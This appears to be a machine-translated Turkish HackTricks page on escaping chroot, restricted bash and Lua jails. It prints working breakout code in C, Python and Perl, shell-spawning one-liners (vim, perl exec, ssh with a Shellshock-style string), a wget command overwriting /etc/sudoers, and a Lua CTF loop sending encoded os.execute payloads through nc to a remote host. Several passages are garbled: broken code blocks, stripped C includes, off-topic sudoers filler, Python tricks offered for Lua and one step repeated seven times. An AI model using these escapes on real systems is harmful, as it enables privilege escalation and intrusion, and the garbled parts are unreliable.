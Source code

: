 # Escaping from Jails

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzdaki özel [**NFT'leri**](https://opensea.io/collection/the-peass-family) keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**'ı takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## **GTFOBins**

**"Shell" özelliğine sahip herhangi bir ikili dosyayı çalıştırabilir misiniz diye arama yapın** [**https://gtfobins.github.io/**](https://gtfobins.github.io)

## Chroot Kaçışları

[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations)'dan: Chroot mekanizması, **yetkili** (**root**) **kullanıcılar** tarafından kasıtlı olarak manipülasyona karşı korunmak için tasarlanmamıştır. Çoğu sistemde, chroot bağlamları düzgün bir şekilde yığılmaz ve yeterli ayrıcalıklara sahip chrooted programlar, **kaçmak için ikinci bir chroot yapabilir**.\
Genellikle bu, kaçmak için chroot içinde root olmanız gerektiği anlamına gelir.

{% hint style="success" %}
**chw00t** [**aracı**](https://github.com/earthquake/chw00t), aşağıdaki senaryolardan istifade etmek ve `chroot`'tan kaçmak için oluşturulmuştur.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Bir chroot içinde **root** iseniz, **başka bir chroot oluşturarak** kaçabilirsiniz. Bu, 2 chroot'un (Linux'ta) bir arada bulunamaması anlamına gelir, bu yüzden bir klasör oluşturup ardından **dışında olduğunuz yeni chroot**'u bu yeni klasöre oluşturursanız, artık **yeni chroot'un dışında** olacaksınız ve bu nedenle FS içinde olacaksınız.

Bu genellikle chroot'un çalışma dizinini belirtilene taşımadığı için chroot oluşturabilirsiniz, ancak dışında olabilirsiniz.
{% endhint %}

Genellikle bir chroot hapishanesinin içinde `chroot` ikili dosyasını bulamazsınız, ancak bir ikili dosyayı **derleyebilir, yükleyebilir ve çalıştırabilirsiniz**:

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("chroot-dir", 0755); chroot("chroot-dir"); for(int i = 0; i < 1000; i++) { chdir(".."); } chroot("."); system("/bin/bash"); }

````
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
````

</details>

<details>

<summary>Perl</summary>

Perl, birçok Linux sistemde bulunan bir betikleme dilidir. Sınırlı bir Bash kabuğundan kaçmak için Perl kullanabilirsiniz. Aşağıda, Perl'i kullanarak sınırlı bir Bash kabuğundan nasıl kaçabileceğinizi gösteren bir örnek bulunmaktadır:

```perl
perl -e 'exec "/bin/sh";'
```

Bu komut, Perl'i kullanarak `/bin/sh` kabuğunu çalıştırır. Bu, sınırlı bir Bash kabuğundan kaçmanıza olanak sağlar ve daha fazla ayrıcalık elde etmenizi sağlar.

</details>

\`\`\`perl #!/usr/bin/perl mkdir "chroot-dir"; chroot "chroot-dir"; foreach my $i (0..1000) { chdir ".." } chroot "."; system("/bin/bash"); \`\`\`

### Root + Kaydedilen fd

{% hint style="warning" %}
Bu, önceki duruma benzer, ancak bu durumda **saldırgan mevcut dizine bir dosya tanımlayıcısı kaydeder** ve ardından **yeni bir klasörde chroot oluşturur**. Son olarak, chroot dışında **bu FD'ye erişimi olduğu için** ona erişir ve **kaçar**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("tmpdir", 0755); dir\_fd = open(".", O\_RDONLY); if(chroot("tmpdir")){ perror("chroot"); } fchdir(dir\_fd); close(dir\_fd); for(x = 0; x < 1000; x++) chdir(".."); chroot("."); }

````
</details>

### Root + Fork + UDS (Unix Domain Sockets)

<div data-gb-custom-block data-tag="hint" data-style='warning'>

FD, Unix Domain Sockets üzerinden iletilir, bu yüzden:

* Bir çocuk süreç oluşturun (fork)
* Ebeveyn ve çocuk konuşabilsin diye UDS oluşturun
* Çocuk süreçte farklı bir klasöre chroot çalıştırın
* Ebeveyn süreçte, yeni çocuk sürecin chroot'un dışında olan bir klasörün FD'sini oluşturun
* UDS kullanarak o FD'yi çocuk sürece geçirin
* Çocuk süreç o FD'ye chdir yapar ve chroot'un dışında olduğu için hapisten kaçar

</div>

### &#x20;Root + Mount

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Root cihazını (/) chroot içindeki bir dizine bağlama
* O dizine chroot yapma

Bu Linux'ta mümkündür

</div>

### Root + /proc

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Procfs'i chroot içindeki bir dizine bağlayın (henüz bağlı değilse)
* Farklı bir kök/cwd girişi olan bir pid arayın, örneğin: /proc/1/root
* Bu girişe chroot yapın

</div>

### Root(?) + Fork

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Bir Fork (çocuk süreç) oluşturun ve FS'nin daha derininde farklı bir klasöre chroot yapın ve ona CD yapın
* Ebeveyn süreçten, çocuk sürecin chroot'un öncesindeki bir klasöre taşıyın
* Bu çocuk süreç chroot'un dışında bulunacaktır

</div>

### ptrace

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Eskiden kullanıcılar kendi süreçlerini kendi süreçlerinden hata ayıklarlar... ancak bu artık varsayılan olarak mümkün değil
* Yine de, mümkünse, bir sürece ptrace yapabilir ve içinde bir shellcode çalıştırabilirsiniz ([bu örneğe bakın](linux-capabilities.md#cap\_sys\_ptrace)).

</div>

## Bash Hapishaneleri

### Sorgulama

Hapishane hakkında bilgi alın:
```bash
echo $SHELL
echo $PATH
env
export
pwd
````

#### PATH Değiştirme

PATH ortam değişkenini değiştirebileceğinizi kontrol edin.

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

#### Vim Kullanımı

Bir sınırlı kabukta çalışırken, bazen sınırlamaları aşmak için Vim'i kullanabilirsiniz. Vim, bir metin düzenleyici olarak kullanılabilir ve bazı sınırlı kabuklarda çalışan komutları çalıştırmak için kullanılabilir.

1.  İlk olarak, Vim'i açmak için aşağıdaki komutu kullanın:

    ```bash
    vim
    ```
2. Vim açıldığında, "Normal" modda olacaksınız. Komutları girmek için "Komut" moduna geçmek için `:` tuşuna basın.
3.  Sınırlı kabukta çalıştırmak istediğiniz komutu girin. Örneğin, bir dosya listelemek için `ls` komutunu kullanmak istiyorsanız, aşağıdaki gibi girin:

    ```bash
    :!ls
    ```
4. Komutu çalıştırmak için Enter tuşuna basın. Sonuçlar Vim penceresinde görünecektir.
5. Komutun çıktısını inceledikten sonra, Vim'i kapatmak için `:q` komutunu kullanabilirsiniz.

Vim'i kullanarak sınırlı kabuklardan kaçınmak, bazı durumlarda sınırlamaları aşmanın etkili bir yoludur. Ancak, bu yöntem her zaman çalışmayabilir ve dikkatli olmanız gerekmektedir.

```bash
:set shell=/bin/sh
:shell
```

#### Script oluştur

_/bin/bash_ içeriğiyle çalıştırılabilir bir dosya oluşturup oluşturamadığınızı kontrol edin.

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

#### SSH üzerinden bash almak

Eğer ssh üzerinden erişim sağlıyorsanız, bir bash kabuğunu çalıştırmak için bu hileyi kullanabilirsiniz:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

#### Bildirim

Bir sınırlı kabuk ortamından kaçmak için kullanılan birkaç yöntem vardır. Bu yöntemler, sınırlı bir kabukta çalışan bir kullanıcının yetkilerini artırmak için kullanılır. Aşağıda, bu yöntemlerin bazıları açıklanmaktadır:

**1. Sudo Yetkilerini Kullanma**

Bir kullanıcının sudo yetkilerini kullanarak sınırlı bir kabuktan kaçması mümkündür. Sudo, belirli komutları kök kullanıcı olarak çalıştırmak için kullanılır. Kullanıcı, sudo komutunu kullanarak kök yetkilerine sahip bir komut çalıştırabilir ve böylece sınırlı kabuktan kaçabilir.

Örnek kullanım:

```bash
sudo /bin/bash
```

Bu komut, `/bin/bash` kabuğunu kök kullanıcı olarak çalıştırır.

**2. Sudoers Dosyasını Düzenleme**

Sudoers dosyası, sudo yetkilerini düzenlemek için kullanılır. Bu dosyayı düzenleyerek, sınırlı bir kabuktan kaçmak için kullanıcının sudo yetkilerini değiştirebilirsiniz. Sudoers dosyasını düzenlemek için `visudo` komutunu kullanabilirsiniz.

Örnek kullanım:

```bash
sudo visudo
```

Bu komut, sudoers dosyasını düzenlemek için visudo editörünü açar.

**3. Sudoers Dosyasında Yeni Bir Kullanıcı Eklemek**

Sudoers dosyasına yeni bir kullanıcı ekleyerek, bu kullanıcının sınırlı bir kabuktan kaçmasını sağlayabilirsiniz. Yeni bir kullanıcı eklemek için sudoers dosyasını düzenleyebilirsiniz.

Örnek kullanım:

```bash
sudo visudo
```

Bu komut, sudoers dosyasını düzenlemek için visudo editörünü açar. Ardından, dosyaya yeni bir kullanıcı ekleyebilirsiniz.

**4. Sudoers Dosyasında Komutları Kısıtlama**

Sudoers dosyasında komutları kısıtlamak, sınırlı bir kabuktan kaçmak için kullanıcının yetkilerini artırabilir. Sudoers dosyasını düzenleyerek, kullanıcının sadece belirli komutları kök kullanıcı olarak çalıştırmasına izin verebilirsiniz.

Örnek kullanım:

```bash
sudo visudo
```

Bu komut, sudoers dosyasını düzenlemek için visudo editörünü açar. Ardından, kullanıcının yetkilerini kısıtlayabilirsiniz.

**5. Sudoers Dosyasında Çalışma Süresini Uzatma**

Sudoers dosyasında çalışma süresini uzatmak, sınırlı bir kabuktan kaçmak için kullanıcının daha fazla zaman kazanmasını sağlar. Sudoers dosyasını düzenleyerek, kullanıcının sudo yetkilerini daha uzun süre kullanmasına izin verebilirsiniz.

Örnek kullanım:

```bash
sudo visudo
```

Bu komut, sudoers dosyasını düzenlemek için visudo editörünü açar. Ardından, kullanıcının çalışma süresini uzatabilirsiniz.

Bu yöntemler, sınırlı bir kabuktan kaçmak için kullanılan bazı temel tekniklerdir. Her bir yöntem, kullanıcının yetkilerini artırmak için farklı bir yaklaşım sunar.

```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```

#### Wget

Örneğin sudoers dosyasını üzerine yazabilirsiniz.

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

#### Diğer hileler

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Ayrıca ilginç olabilecek sayfa:**

### Python Hapishaneleri

Python hapishanelerinden kaçma hakkında hileler aşağıdaki sayfada bulunabilir:

### Lua Hapishaneleri

Bu sayfada lua içinde erişebileceğiniz global fonksiyonları bulabilirsiniz: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Komut yürütme ile değerlendirme:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

Bir kütüphanenin fonksiyonlarını noktalar kullanmadan çağırmak için bazı hileler:

* **Using the `import` statement**: You can import the library and then call its functions directly without using dots. For example, instead of `library.function()`, you can use `import library; library.function()`.
* **Using the `from` statement**: You can use the `from` statement to import specific functions from the library and then call them without using dots. For example, instead of `library.function()`, you can use `from library import function; function()`.
* **Using the `getattr()` function**: The `getattr()` function allows you to dynamically access an object's attributes or methods by name. You can use it to call functions of a library without using dots. For example, `getattr(library, 'function')()`.
* **Using the `locals()` or `globals()` functions**: These functions return a dictionary of the current local or global symbol table, respectively. You can use them to access the functions of a library without using dots. For example, `locals()['library']['function']()` or `globals()['library']['function']()`.
* **Using the `exec()` function**: The `exec()` function allows you to execute dynamically generated code. You can use it to call functions of a library without using dots. For example, `exec('library.function()')`.

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

## Kütüphane Fonksiyonlarını Sıralama:

Bir kütüphanenin fonksiyonlarını sıralamak, kütüphanenin içerdiği kullanılabilir fonksiyonları belirlemek için önemli bir adımdır. Bu adım, kütüphanenin sağladığı işlevleri anlamak ve kullanmak için gereklidir.

Aşağıdaki adımları izleyerek bir kütüphanenin fonksiyonlarını sıralayabilirsiniz:

1. Kütüphaneyi yükleyin veya içe aktarın.
2. Kütüphanenin belgelerini veya dokümantasyonunu kontrol edin. Bu belgeler, kütüphanenin fonksiyonlarını ve bunların nasıl kullanılacağını açıklar.
3. Kütüphanenin kaynak kodunu inceleyin. Kaynak kodu, kütüphanenin iç yapısını ve içerdiği fonksiyonları gösterir.
4. Kütüphanenin hedef platformunda çalışan örnek uygulamaları araştırın. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.
5. Kütüphanenin hedef platformunda çalışan örnek uygulamaları inceleyin. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.
6. Kütüphanenin hedef platformunda çalışan örnek uygulamaları inceleyin. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.
7. Kütüphanenin hedef platformunda çalışan örnek uygulamaları inceleyin. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.
8. Kütüphanenin hedef platformunda çalışan örnek uygulamaları inceleyin. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.
9. Kütüphanenin hedef platformunda çalışan örnek uygulamaları inceleyin. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.
10. Kütüphanenin hedef platformunda çalışan örnek uygulamaları inceleyin. Bu uygulamalar, kütüphanenin nasıl kullanıldığını ve hangi fonksiyonların kullanıldığını gösterir.

Bu adımları takip ederek bir kütüphanenin fonksiyonlarını sıralayabilir ve kütüphaneyi daha etkili bir şekilde kullanabilirsiniz.

```bash
for k,v in pairs(string) do print(k,v) end
```

Dikkat edin, önceki tek satırlığı her çalıştırdığınızda **fonskiyonların sırası değişir**. Bu nedenle belirli bir fonksiyonu çalıştırmak istiyorsanız, farklı lua ortamlarını yükleyerek ve le kütüphanesinin ilk fonksiyonunu çağırarak brute force saldırısı gerçekleştirebilirsiniz:

```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**Etkileşimli lua kabuğu alın**: Sınırlı bir lua kabuğu içindeyseniz, yeni bir lua kabuğu (ve umarım sınırsız) almak için aşağıdaki komutu kullanabilirsiniz:

```bash
debug.debug()
```

### Referanslar

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slaytlar: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))



</details>
